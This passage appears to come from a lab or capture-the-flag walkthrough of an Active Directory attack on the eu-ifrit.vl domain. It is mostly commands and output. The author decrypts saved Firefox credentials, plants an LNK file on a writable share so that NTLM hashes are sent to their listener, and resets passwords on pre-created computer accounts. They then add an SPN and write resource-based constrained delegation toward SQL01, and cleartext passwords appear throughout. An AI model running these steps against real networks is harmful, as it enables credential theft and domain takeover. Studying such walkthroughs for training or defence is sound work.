drwxrwxrwx 1 root root 0 Jul 14  2024  Lucy.Richardson
drwxrwxrwx 1 root root 0 Jul 14  2024  Lynne.Gibson
drwxrwxrwx 1 root root 0 Jul 14  2024  Lynne.Hayward
drwxrwxrwx 1 root root 0 Jul 14  2024  Malcolm.Palmer
drwxrwxrwx 1 root root 0 Jul 14  2024  Marc.Mitchell
drwxrwxrwx 1 root root 0 Jul 14  2024  Marcus.Taylor
drwxrwxrwx 1 root root 0 Jul 14  2024  Margaret.Patel
drwxrwxrwx 1 root root 0 Jul 14  2024  Marian.Baldwin
drwxrwxrwx 1 root root 0 Jul 14  2024  Marian.Bell
drwxrwxrwx 1 root root 0 Jul 14  2024  Marian.Campbell
drwxrwxrwx 1 root root 0 Jul 14  2024  Maria.Parkinson
drwxrwxrwx 1 root root 0 Jul 14  2024  Marilyn.Sanderson
drwxrwxrwx 1 root root 0 Jul 14  2024  Marion.Evans
drwxrwxrwx 1 root root 0 Jul 14  2024  Martin.Dawson
drwxrwxrwx 1 root root 0 Jul 14  2024  Martin.James
drwxrwxrwx 1 root root 0 Jul 14  2024  Martin.Kirk
drwxrwxrwx 1 root root 0 Jul 14  2024  Martin.Marsden
drwxrwxrwx 1 root root 0 Jul 14  2024  Martin.Simpson
drwxrwxrwx 1 root root 0 Jul 14  2024  Mary.Andrews
drwxrwxrwx 1 root root 0 Jul 14  2024  Mary.Hunter
drwxrwxrwx 1 root root 0 Jul 14  2024  Mary.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Matthew.Craig
drwxrwxrwx 1 root root 0 Jul 14  2024  Maurice.Davies
drwxrwxrwx 1 root root 0 Jul 14  2024  Megan.Howard
drwxrwxrwx 1 root root 0 Jul 14  2024  Michelle.Butler
drwxrwxrwx 1 root root 0 Jul 14  2024  Michelle.Jordan
drwxrwxrwx 1 root root 0 Jul 14  2024  Michelle.Young
drwxrwxrwx 1 root root 0 Jul 14  2024  Mohamed.Wright
drwxrwxrwx 1 root root 0 Jul 14  2024  Mohammed.Ward
drwxrwxrwx 1 root root 0 Jul 14  2024  Molly.Wilson
drwxrwxrwx 1 root root 0 Jul 14  2024  Naomi.Harris
drwxrwxrwx 1 root root 0 Jul 14  2024  Natalie.Norris
drwxrwxrwx 1 root root 0 Jul 14  2024  Nicola.Winter
drwxrwxrwx 1 root root 0 Jul 14  2024  Nicole.Harrison
drwxrwxrwx 1 root root 0 Jul 14  2024  Nicole.Lloyd
drwxrwxrwx 1 root root 0 Jul 14  2024  Nigel.Sutton
drwxrwxrwx 1 root root 0 Jul 14  2024  Owen.Black
drwxrwxrwx 1 root root 0 Jul 14  2024  Patricia.Johnson
drwxrwxrwx 1 root root 0 Jul 14  2024  Patrick.Ford
drwxrwxrwx 1 root root 0 Jul 14  2024  Peter.Nash
drwxrwxrwx 1 root root 0 Jul 14  2024  Philip.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Richard.Hutchinson
drwxrwxrwx 1 root root 0 Jul 14  2024  Richard.Lewis
drwxrwxrwx 1 root root 0 Jul 14  2024  Richard.Riley
drwxrwxrwx 1 root root 0 Jul 14  2024  Robert.Lewis
drwxrwxrwx 1 root root 0 Jul 14  2024  Robin.Hargreaves
drwxrwxrwx 1 root root 0 Jul 14  2024  Robin.Scott
drwxrwxrwx 1 root root 0 Jul 14  2024  Robin.Smith
drwxrwxrwx 1 root root 0 Jul 14  2024  Ross.Scott
drwxrwxrwx 1 root root 0 Jul 14  2024  Russell.Hurst
drwxrwxrwx 1 root root 0 Jul 14  2024  Russell.Miller
drwxrwxrwx 1 root root 0 Jul 14  2024  Russell.Mistry
drwxrwxrwx 1 root root 0 Jul 14  2024  Sally.Clayton
drwxrwxrwx 1 root root 0 Jul 14  2024  Sarah.Bradley
drwxrwxrwx 1 root root 0 Jul 14  2024  Sheila.Sharp
drwxrwxrwx 1 root root 0 Jul 14  2024  Sian.Kemp
drwxrwxrwx 1 root root 0 Jul 14  2024  Simon.Morris
drwxrwxrwx 1 root root 0 Jul 14  2024  Sophie.Powell
drwxrwxrwx 1 root root 0 Jul 14  2024  Sophie.Webster
drwxrwxrwx 1 root root 0 Jul 14  2024  Stacey.Barrett
drwxrwxrwx 1 root root 0 Jul 14  2024  Stacey.Pratt
drwxrwxrwx 1 root root 0 Jul 14  2024  Steven.Bowen
drwxrwxrwx 1 root root 0 Jul 14  2024  Stewart.Armstrong
drwxrwxrwx 1 root root 0 Jul 14  2024 'System Volume Information'
drwxrwxrwx 1 root root 0 Jul 14  2024  Tina.Dawson
drwxrwxrwx 1 root root 0 Jul 14  2024  Toby.Knight
drwxrwxrwx 1 root root 0 Jul 14  2024  Tony.Graham
drwxrwxrwx 1 root root 0 Jul 14  2024  Victor.Jenkins
drwxrwxrwx 1 root root 0 Jul 14  2024  Vincent.Roberts
drwxrwxrwx 1 root root 0 Jul 14  2024  Wendy.French
drwxrwxrwx 1 root root 0 Jul 14  2024  William.McLean
drwxrwxrwx 1 root root 0 Jul 14  2024  Yvonne.Morris
drwxrwxrwx 1 root root 0 Jul 14  2024  Zoe.Adams

```

The Jack.Smith user seems having some Firefow profiles?

```bash
── Jack.Smith
│   ├── documents
│   ├── downloads
│   └── profiles
│       ├── activity-stream.discovery_stream.json
│       ├── activity-stream.weather_feed.json
│       ├── addons.json
│       ├── addonStartup.json.lz4
│       ├── AlternateServices.bin
│       ├── bookmarkbackups
│       ├── bounce-tracking-protection.sqlite
│       ├── broadcast-listeners.json
│       ├── cache2
│       │   ├── doomed
│       │   │   └── 8903
│       │   ├── entries
│       │   │   ├── 000589D6FD02B7F962038D851738B047A211C0FF
│       │   │   ├── 0006AF6A69A1FE5BB1F6395571411785A73FC592

```

Here I can see some credentials to the git page?

```bash
──(user㉿kali-almi)-[~/…/ifrit/mount/Jack.Smith/profiles]
└─$ cat logins.json                          
{"nextId":2,"logins":[{"id":1,"hostname":"http://git.ifrit.vl","httpRealm":null,"formSubmitURL":"http://git.ifrit.vl","usernameField":"user[login]","passwordField":"user[password]","encryptedUsername":"MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECJe2Qkxy8MsjBBi29TArA/n/ihTvzMUAd9z1lgVZXc1TR1s=","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECLx3W+60hAWiBBDejBvl0zZqTKbzBBEf22FG","guid":"{2d7bfd7c-3b15-4eeb-95f9-bcb3f92263b9}","encType":1,"timeCreated":1720948608620,"timeLastUsed":1720948614552,"timePasswordChanged":1720948608620,"timesUsed":2,"syncCounter":1,"everSynced":false,"encryptedUnknownFields":null}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}                                                                                                                                                                                                                                                                                                                               

```

And indeed I have them:

```bash
─$ python3 ../Tools/firefox_decrypt/firefox_decrypt.py mount/Jack.Smith/profiles 
2026-04-01 15:41:26,137 - WARNING - profile.ini not found in mount/Jack.Smith/profiles
2026-04-01 15:41:26,137 - WARNING - Continuing and assuming 'mount/Jack.Smith/profiles' is a profile location

Website:   http://git.ifrit.vl
Username: 'jack.smith@ifrit.vl'
Password: 'JigokuNoKaen10'

```

Before moving to the GitLab part I want to check if any BOT will fecth my link saved in that writable share?

```bash
└─$ netexec smb 172.16.41.14 -u Annette.King -p 'PenEuIfrit527#' -M slinky -o SERVER=10.10.14.9 NAME=test
SMB         172.16.41.14    445    DC03             [*] Windows Server 2022 Build 20348 x64 (name:DC03) (domain:eu-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.14    445    DC03             [+] eu-ifrit.vl\Annette.King:PenEuIfrit527# 
SMB         172.16.41.14    445    DC03             [*] Enumerated shares
SMB         172.16.41.14    445    DC03             Share           Permissions     Remark
SMB         172.16.41.14    445    DC03             -----           -----------     ------
SMB         172.16.41.14    445    DC03             ADMIN$                          Remote Admin
SMB         172.16.41.14    445    DC03             C$                              Default share
SMB         172.16.41.14    445    DC03             home-backups$   READ            home folder backups
SMB         172.16.41.14    445    DC03             homes                           user home directories
SMB         172.16.41.14    445    DC03             IPC$            READ            Remote IPC
SMB         172.16.41.14    445    DC03             NETLOGON        READ            Logon server share 
SMB         172.16.41.14    445    DC03             SYSVOL          READ            Logon server share 
SMB         172.16.41.14    445    DC03             transfer        READ,WRITE      temporary file exchange
SLINKY      172.16.41.14    445    DC03             [+] Found writable share: transfer
SLINKY      172.16.41.14    445    DC03             [+] Created LNK file on the transfer share

```

But I do not see any callback?

```bash
─$ impacket-smbclient eu-ifrit.vl/Annette.King:'PenEuIfrit527#'@172.16.41.14
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use transfer
# ls
drw-rw-rw-          0  Wed Apr  1 15:50:26 2026 .
drw-rw-rw-          0  Fri Apr 25 08:21:53 2025 ..
drw-rw-rw-          0  Sun Jul 14 10:59:43 2024 temp
-rw-rw-rw-        944  Wed Apr  1 15:50:26 2026 test.lnk
# get test.lnk
# cd temp
# put test.lnk
# ls
drw-rw-rw-          0  Wed Apr  1 15:51:26 2026 .
drw-rw-rw-          0  Wed Apr  1 15:50:26 2026 ..
-rw-rw-rw-        944  Wed Apr  1 15:51:26 2026 test.lnk
# 


```

I also tried with the Python tool ntlm_theft which creates many more files but the result was the same, I think I need to move on to the Git.



# Another Theory

Now I had an Idea since I cannot get to the RAS machines by common tasks I will check for all the machines part of the Pre-200 group and grab all of them that hasn't logged in yet... This translates to password has never been changed:

```bash
ser@kali-almi:~/Downloads/ifrit/shell$ ldapsearch-ad.py -l 172.16.41.14 -d eu-ifrit.vl -u Annette.King -p 'PenEuIfrit527#' -t search -s '(&(userAccountControl=4128)(logonCount=0))' | tee results.txt 
### Result of "search" command ###
[+] |__ accountExpires = 9999-12-31 23:59:59.999999+00:00
[+] |__ badPasswordTime = 1601-01-01 00:00:00+00:00
[+] |__ badPwdCount = 0
[+] |__ cn = SQL01
[+] |__ codePage = 0
[+] |__ countryCode = 0
[+] |__ description = ['Server Retired (Disabled)']
[+] |__ distinguishedName = CN=SQL01,CN=Computers,DC=eu-ifrit,DC=vl
[+] |__ instanceType = 4
[+] |__ isCriticalSystemObject = False
[+] |__ lastLogoff = 1601-01-01 00:00:00+00:00
[+] |__ lastLogon = 1601-01-01 00:00:00+00:00
[+] |__ localPolicyFlags = 0
[+] |__ logonCount = 0
[+] |__ memberOf = ['CN=SQLServers,CN=Users,DC=eu-ifrit,DC=vl']
[+] |__ name = SQL01
[+] |__ objectCategory = CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
[+] |__ objectClass = ['top', 'person', 'organizationalPerson', 'user', 'computer']
[+] |__ objectGUID = {eee72379-8c25-4f2d-b718-374675d40de7}
[+] |__ objectSid = S-1-5-21-815464091-3988217837-1862656938-1106
[+] |__ primaryGroupID = 515
[+] |__ pwdLastSet = 2024-07-07 11:57:58.817862+00:00
[+] |__ sAMAccountName = SQL01$
[+] |__ sAMAccountType = SAM_MACHINE_ACCOUNT
[+] |__ userAccountControl = PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
[+] |__ whenChanged = 2024-07-14 11:59:30+00:00
[+] |__ whenCreated = 2024-07-07 11:57:58+00:00
[+] |__ accountExpires = 9999-12-31 23:59:59.999999+00:00
[+] |__ badPasswordTime = 1601-01-01 00:00:00+00:00
[+] |__ badPwdCount = 0
[+] |__ cn = DEV02
[+] |__ codePage = 0
[+] |__ countryCode = 0
[+] |__ description = ['Developer Client']
[+] |__ distinguishedName = CN=DEV02,OU=Clients,DC=eu-ifrit,DC=vl
[+] |__ instanceType = 4
[+] |__ isCriticalSystemObject = False
[+] |__ lastLogoff = 1601-01-01 00:00:00+00:00
[+] |__ lastLogon = 1601-01-01 00:00:00+00:00
[+] |__ localPolicyFlags = 0
[+] |__ logonCount = 0
[+] |__ name = DEV02
[+] |__ objectCategory = CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
[+] |__ objectClass = ['top', 'person', 'organizationalPerson', 'user', 'computer']
[+] |__ objectGUID = {903b5e83-9077-49b8-a80c-0baa3924fc14}
[+] |__ objectSid = S-1-5-21-815464091-3988217837-1862656938-1107
[+] |__ primaryGroupID = 515
[+] |__ pwdLastSet = 2024-07-07 11:58:05.583893+00:00
[+] |__ sAMAccountName = DEV02$
[+] |__ sAMAccountType = SAM_MACHINE_ACCOUNT
[+] |__ userAccountControl = PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
[+] |__ whenChanged = 2024-07-14 12:01:36+00:00
[+] |__ whenCreated = 2024-07-07 11:58:05+00:00
[+] |__ accountExpires = 9999-12-31 23:59:59.999999+00:00
[+] |__ badPasswordTime = 1601-01-01 00:00:00+00:00
[+] |__ badPwdCount = 0
[+] |__ cn = DEV01
[+] |__ codePage = 0
[+] |__ countryCode = 0
[+] |__ description = ['Developer Client']
[+] |__ distinguishedName = CN=DEV01,OU=Clients,DC=eu-ifrit,DC=vl
[+] |__ instanceType = 4
[+] |__ isCriticalSystemObject = False
[+] |__ lastLogoff = 1601-01-01 00:00:00+00:00
[+] |__ lastLogon = 1601-01-01 00:00:00+00:00
[+] |__ localPolicyFlags = 0
[+] |__ logonCount = 0
[+] |__ name = DEV01
[+] |__ objectCategory = CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
[+] |__ objectClass = ['top', 'person', 'organizationalPerson', 'user', 'computer']
[+] |__ objectGUID = {adc19347-80fa-4aee-8ae4-070260c0ba5d}
[+] |__ objectSid = S-1-5-21-815464091-3988217837-1862656938-1108
[+] |__ primaryGroupID = 515
[+] |__ pwdLastSet = 2024-07-07 11:58:11.770771+00:00
[+] |__ sAMAccountName = DEV01$
[+] |__ sAMAccountType = SAM_MACHINE_ACCOUNT
[+] |__ userAccountControl = PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
[+] |__ whenChanged = 2024-07-14 12:01:36+00:00
[+] |__ whenCreated = 2024-07-07 11:58:11+00:00
[+] |__ accountExpires = 9999-12-31 23:59:59.999999+00:00
[+] |__ badPasswordTime = 1601-01-01 00:00:00+00:00
[+] |__ badPwdCount = 0
[+] |__ cn = RAS50014
[+] |__ codePage = 0
[+] |__ countryCode = 0
[+] |__ distinguishedName = CN=RAS50014,OU=ras,DC=eu-ifrit,DC=vl
[+] |__ instanceType = 4
[+] |__ isCriticalSystemObject = False
[+] |__ lastLogoff = 1601-01-01 00:00:00+00:00
[+] |__ lastLogon = 1601-01-01 00:00:00+00:00
[+] |__ localPolicyFlags = 0
[+] |__ logonCount = 0
[+] |__ msDS-KeyCredentialLink = [b'B:828:00020000200001F48CC591E60E5475E24206902B98E388FF8168FE25EC73070EEF7410CF9B5C2E200002465349B35EEC32D210B03101809AC4EE3E358354069AEDDDB498A17173657C481B0103525341310008000003000000000100000000000000000000010001B553DA4899485D896D6A6FD22AC1EBA8E39719AA5D2C393B7AA46BE17FD42B4811B408E247881FCAC9F6FB92EA542D931B7C2DCE51E43A6250CCC40E5CA763EC169834EED4F092830CE3C6E3D1D763CF3C4EFEEC68CCA85B7FB38D11160E30993B88637A77FB449D064F6DD9A2B72F0D1EBE23A4302C27FC246F438E1038C7E00D919879CFF6E224C91E334EC49CD372E2CBE8B60387BB04A4D5685D24BD8890C17EAB935C24427C68D296381F073C421F9BB1F9228418A249AC00F63802AD7AB2124A4E632B8FDFD28B42E1B292994B560596530061546D4D94BC3685ED44A898A7EEC93A724299D386E9C99C6ABA835AD957EA1AEC169A4E7D3F62F9FF824B01000401010005001000063F8627E91B17467BBA4E32BE34064FAB020007010008000820AB6A1E83C2DC0108000920AB6A1E83C2DC01:CN=RAS50014,OU=ras,DC=eu-ifrit,DC=vl']
[+] |__ name = RAS50014
[+] |__ objectCategory = CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
[+] |__ objectClass = ['top', 'person', 'organizationalPerson', 'user', 'computer']
[+] |__ objectGUID = {dc8c3c39-5acd-411e-860e-1b1076b6c2c0}
[+] |__ objectSid = S-1-5-21-815464091-3988217837-1862656938-1325
[+] |__ primaryGroupID = 515
[+] |__ pwdLastSet = 2024-07-14 11:19:03.986326+00:00
[+] |__ sAMAccountName = RAS50014$
[+] |__ sAMAccountType = SAM_MACHINE_ACCOUNT
[+] |__ userAccountControl = PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
[+] |__ whenChanged = 2026-04-02 09:28:52+00:00
[+] |__ whenCreated = 2024-07-14 11:19:03+00:00
[+] |__ accountExpires = 9999-12-31 23:59:59.999999+00:00
[+] |__ badPasswordTime = 1601-01-01 00:00:00+00:00
[+] |__ badPwdCount = 0
[+] |__ cn = RAS50011
[+] |__ codePage = 0
[+] |__ countryCode = 0
[+] |__ distinguishedName = CN=RAS50011,OU=ras,DC=eu-ifrit,DC=vl
[+] |__ instanceType = 4
[+] |__ isCriticalSystemObject = False
[+] |__ lastLogoff = 1601-01-01 00:00:00+00:00
[+] |__ lastLogon = 1601-01-01 00:00:00+00:00
[+] |__ localPolicyFlags = 0
[+] |__ logonCount = 0
[+] |__ name = RAS50011
[+] |__ objectCategory = CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
[+] |__ objectClass = ['top', 'person', 'organizationalPerson', 'user', 'computer']
[+] |__ objectGUID = {b7933851-1acd-443a-837b-4cc5edecf604}
[+] |__ objectSid = S-1-5-21-815464091-3988217837-1862656938-1326
[+] |__ primaryGroupID = 515
[+] |__ pwdLastSet = 2024-07-14 11:19:12.089905+00:00
[+] |__ sAMAccountName = RAS50011$
[+] |__ sAMAccountType = SAM_MACHINE_ACCOUNT
[+] |__ userAccountControl = PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
[+] |__ whenChanged = 2024-07-14 11:37:42+00:00
[+] |__ whenCreated = 2024-07-14 11:19:12+00:00
[+] |__ accountExpires = 9999-12-31 23:59:59.999999+00:00
[+] |__ badPasswordTime = 1601-01-01 00:00:00+00:00
[+] |__ badPwdCount = 0
[+] |__ cn = RAS50021
[+] |__ codePage = 0
[+] |__ countryCode = 0
[+] |__ distinguishedName = CN=RAS50021,OU=ras,DC=eu-ifrit,DC=vl
[+] |__ instanceType = 4
[+] |__ isCriticalSystemObject = False
[+] |__ lastLogoff = 1601-01-01 00:00:00+00:00
[+] |__ lastLogon = 1601-01-01 00:00:00+00:00
[+] |__ localPolicyFlags = 0
[+] |__ logonCount = 0
[+] |__ name = RAS50021
[+] |__ objectCategory = CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
[+] |__ objectClass = ['top', 'person', 'organizationalPerson', 'user', 'computer']
[+] |__ objectGUID = {eabced15-1146-4768-a98f-2be71cc19b3c}
[+] |__ objectSid = S-1-5-21-815464091-3988217837-1862656938-1327
[+] |__ primaryGroupID = 515
[+] |__ pwdLastSet = 2024-07-14 11:19:22.875641+00:00
[+] |__ sAMAccountName = RAS50021$
[+] |__ sAMAccountType = SAM_MACHINE_ACCOUNT
[+] |__ userAccountControl = PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
[+] |__ whenChanged = 2024-07-14 11:37:42+00:00
[+] |__ whenCreated = 2024-07-14 11:19:22+00:00
[+] |__ accountExpires = 9999-12-31 23:59:59.999999+00:00
[+] |__ badPasswordTime = 1601-01-01 00:00:00+00:00
[+] |__ badPwdCount = 0
[+] |__ cn = RAS50005
[+] |__ codePage = 0
[+] |__ countryCode = 0
[+] |__ distinguishedName = CN=RAS50005,OU=ras,DC=eu-ifrit,DC=vl
[+] |__ instanceType = 4
[+] |__ isCriticalSystemObject = False
[+] |__ lastLogoff = 1601-01-01 00:00:00+00:00
[+] |__ lastLogon = 1601-01-01 00:00:00+00:00
[+] |__ localPolicyFlags = 0
[+] |__ logonCount = 0
[+] |__ name = RAS50005
[+] |__ objectCategory = CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
[+] |__ objectClass = ['top', 'person', 'organizationalPerson', 'user', 'computer']
[+] |__ objectGUID = {8781c978-d48c-4133-b961-9f80bc07be3b}
[+] |__ objectSid = S-1-5-21-815464091-3988217837-1862656938-1328
[+] |__ primaryGroupID = 515
[+] |__ pwdLastSet = 2024-07-14 11:19:30.679924+00:00
[+] |__ sAMAccountName = RAS50005$
[+] |__ sAMAccountType = SAM_MACHINE_ACCOUNT
[+] |__ userAccountControl = PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
[+] |__ whenChanged = 2024-07-14 11:37:42+00:00
[+] |__ whenCreated = 2024-07-14 11:19:30+00:00
[+] |__ accountExpires = 9999-12-31 23:59:59.999999+00:00
[+] |__ badPasswordTime = 1601-01-01 00:00:00+00:00
[+] |__ badPwdCount = 0
[+] |__ cn = Backup01
[+] |__ codePage = 0
[+] |__ countryCode = 0
[+] |__ distinguishedName = CN=Backup01,CN=Computers,DC=eu-ifrit,DC=vl
[+] |__ instanceType = 4
[+] |__ isCriticalSystemObject = False
[+] |__ lastLogoff = 1601-01-01 00:00:00+00:00
[+] |__ lastLogon = 1601-01-01 00:00:00+00:00
[+] |__ localPolicyFlags = 0
[+] |__ logonCount = 0
[+] |__ name = Backup01
[+] |__ objectCategory = CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
[+] |__ objectClass = ['top', 'person', 'organizationalPerson', 'user', 'computer']
[+] |__ objectGUID = {2b2e6273-9bc2-4e65-8523-40d535c1102e}
[+] |__ objectSid = S-1-5-21-815464091-3988217837-1862656938-1336
[+] |__ primaryGroupID = 515
[+] |__ pwdLastSet = 2024-07-14 12:21:49.479601+00:00
[+] |__ sAMAccountName = BACKUP01$
[+] |__ sAMAccountType = SAM_MACHINE_ACCOUNT
[+] |__ userAccountControl = PASSWD_NOTREQD, WORKSTATION_TRUST_ACCOUNT
[+] |__ whenChanged = 2024-07-14 12:22:03+00:00
[+] |__ whenCreated = 2024-07-14 12:21:49+00:00

```

Now I am exporting only the SAMACCOUNTNAMES and the respective passwords that matches the same as SamAccountName but in lowercase:

```bash
user@kali-almi:~/Downloads/ifrit/shell$ cat results.txt | grep "sAMAccountName" | awk '{print $5}' | tee computers_2000.txt 
SQL01$
DEV02$
DEV01$
RAS50014$
RAS50011$
RAS50021$
RAS50005$
BACKUP01$

user@kali-almi:~/Downloads/ifrit/shell$ cat results.txt | grep "sAMAccountName" | awk '{print tolower($5)}' | tr -d '$' | tee passwords_2000.txt
sql01
dev02
dev01
ras50014
ras50011
ras50021
ras50005
backup01
              
```

But none of them worked:

```bash
user@kali-almi:~/Downloads/ifrit$ netexec smb 172.16.41.14 -u computers_2000.txt -p passwords_2000.txt --no-bruteforce
SMB         172.16.41.14    445    DC03             [*] Windows Server 2022 Build 20348 x64 (name:DC03) (domain:eu-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\SQL01$:sql01 STATUS_LOGON_FAILURE 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\DEV02$:dev02 STATUS_LOGON_FAILURE 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\DEV01$:dev01 STATUS_LOGON_FAILURE 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\RAS50014$:ras50014 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\RAS50011$:ras50011 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\RAS50021$:ras50021 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\RAS50005$:ras50005 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
SMB         172.16.41.14    445    DC03             [-] eu-ifrit.vl\BACKUP01$:backup01 STATUS_LOGON_FAILURE 
                                                                                                                
```

Now even the Netexec tells me the password should be correct?

```bash
user@kali-almi:~/Downloads/ifrit$ netexec ldap 172.16.41.14 -u Annette.King -p 'PenEuIfrit527#' -M pre2k
LDAP        172.16.41.14    389    DC03             [*] Windows Server 2022 Build 20348 (name:DC03) (domain:eu-ifrit.vl) (signing:None) (channel binding:No TLS cert) 
LDAP        172.16.41.14    389    DC03             [+] eu-ifrit.vl\Annette.King:PenEuIfrit527# 
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: SQL01$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: DEV02$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: DEV01$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50014$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50011$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50021$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50005$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: BACKUP01$
PRE2K       172.16.41.14    389    DC03             [+] Found 8 pre-created computer accounts. Saved to /home/user/.nxc/modules/pre2k/eu-
```

Now after a quick googling all those RASx are correct password but the error message tells you need to change the password prior of logging in and it can be done like this:

```bash
─$ impacket-changepasswd eu-ifrit.vl/'RAS50014$':ras50014@dc03.eu-ifrit.vl -newpass 'Coglione1!' -p kpasswd
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of eu-ifrit.vl\RAS50014$
[*] Password was changed successfully.


user@kali-almi:~/Downloads/ifrit$ netexec smb 172.16.41.14 -u 'RAS50014$' -p 'Coglione1!' 
SMB         172.16.41.14    445    DC03             [*] Windows Server 2022 Build 20348 x64 (name:DC03) (domain:eu-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.14    445    DC03             [+] eu-ifrit.vl\RAS50014$:Coglione1! 
                                                                                             
```

Now in order to be able to reach the SQL01 and abuse the RBCD I need to obtain the keys to another of those RAS machines:

```bash
─$ impacket-changepasswd eu-ifrit.vl/'RAS50011$':ras50011@dc03.eu-ifrit.vl -newpass 'Coglione1!' -p kpasswd
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of eu-ifrit.vl\RAS50011$
[*] Password was changed successfully.
                                         
```

And now I need to add a dummy SPN to this RAS machine:

```bash
╭─LDAP─[DC03.eu-ifrit.vl]─[EU-IFRIT\DEV05$]-[NS:172.16.41.14] [CACHED]
╰─ ❯ Set-ADObject -Identity 'RAS50011$' -Set 'servicePrincipalname=cifs/this.is.fine'   
[2026-04-02 15:46:32] [Set-DomainObject] Success! modified attribute servicePrincipalname for CN=RAS50011,OU=ras,DC=eu-ifrit,DC=vl
╭─LDAP─[DC03.eu-ifrit.vl]─[EU-IFRIT\DEV05$]-[NS:172.16.41.14] [CACHED]
╰─ ❯ Get-DomainComputer -Identity 'RAS50011$' -Properties * -Select servicePrincipalname
cifs/this.is.fine

```

And now I should be able to use the first ras to write the RBCD and get the keys to SQL01:

```bash
user@kali-almi:~/Downloads/ifrit$ impacket-rbcd -action write -delegate-to 'SQL01$' -delegate-from 'RAS50011$' -dc-ip 172.16.41.14 'eu-ifrit.vl/RAS50014$:Coglione1!' 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] RAS50011$ can now impersonate users on SQL01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     RAS50011$    (S-1-5-21-815464091-3988217837-1862656938-1326)
                                                                           
```

But this will not work as the machine is ghosted:



Now only if I was able t get to the SQL03 then I would be able to pass this.

# Back on the VDI

Going back on the AD dump data I can see that there is a specific group on the IT realm that manages the VDI machine and only one account is part of that:



And I can see on the VDI machine that is setup as local admin group as well:

```bash
PS C:\Windows> net user

User accounts for \\VDI02

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount
The command completed successfully.

PS C:\Windows> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
EU-IFRIT\Domain Admins
IFRIT\Domain Admins
IT-IFRIT\vdi-admins
The command completed successfully.

PS C:\Windows>
```

For the pwnage of the VDI machine, check the specific page here I will continue on the escalation to DA and interestingly seems like the VDI02 can perform a RBCD on behalf of the DC03?

```bash
└─$ netexec ldap 172.16.41.14 -u Jack.Smith -p DXt9boDb8W_doj -M pre2k 
LDAP        172.16.41.14    389    DC03             [*] Windows Server 2022 Build 20348 (name:DC03) (domain:eu-ifrit.vl) (signing:None) (channel binding:No TLS cert)
LDAP        172.16.41.14    389    DC03             [+] eu-ifrit.vl\Jack.Smith:DXt9boDb8W_doj 
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: SQL01$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: DEV02$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: DEV01$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50014$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50011$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50021$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50005$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: BACKUP01$

```

Now as I saw eariel on the MAQ is equal to zero which means I cannot add a new computer as I will normally to to perform a RBCD:

```bash
└─$ netexec ldap 172.16.41.14 -u Jack.Smith -p DXt9boDb8W_doj -M maq
